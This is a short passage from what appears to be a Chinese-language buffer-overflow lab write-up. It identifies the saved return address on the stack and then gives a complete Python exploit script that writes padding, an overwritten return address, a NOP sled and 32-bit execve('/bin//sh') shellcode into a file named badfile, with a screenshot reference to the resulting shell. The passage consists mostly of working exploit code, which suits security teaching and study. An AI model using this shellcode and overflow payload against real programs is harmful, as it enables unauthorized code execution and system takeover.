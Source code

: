 可以看到，真实的ret所在栈上地址为`0xffffceac`，故我们可以使用`0xffffceb0`之后的地址作为返回地址。

exp如下

```python
#!/usr/bin/python3

import sys

shellcode= ( 
    "\x31\xc0"             # xorl    %eax,%eax              
    "\x50"                 # pushl   %eax                   
    "\x68""//sh"           # pushl   $0x68732f2f            
    "\x68""/bin"           # pushl   $0x6e69622f            
    "\x89\xe3"             # movl    %esp,%ebx              
    "\x50"                 # pushl   %eax                   
    "\x53"                 # pushl   %ebx                   
    "\x89\xe1"             # movl    %esp,%ecx              
    "\x99"                 # cdq                            
    "\xb0\x0b"             # movb    $0x0b,%al              
    "\xcd\x80"             # int     $0x80                  
    "\x00"
).encode('latin-1')

# Fill the content with NOP's
content = 'a'*(0x20+4)  + '\xb0\xce\xff\xff'
content += chr(0x90)*(517-len(content)) 
content = bytearray(map(ord,content))

# Put the shellcode at the end
start = 517-len(shellcode)
content[start:] = shellcode 

# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()

```

结果如下

![task2_getshell](../images/lab3-task2-get-shell.png)
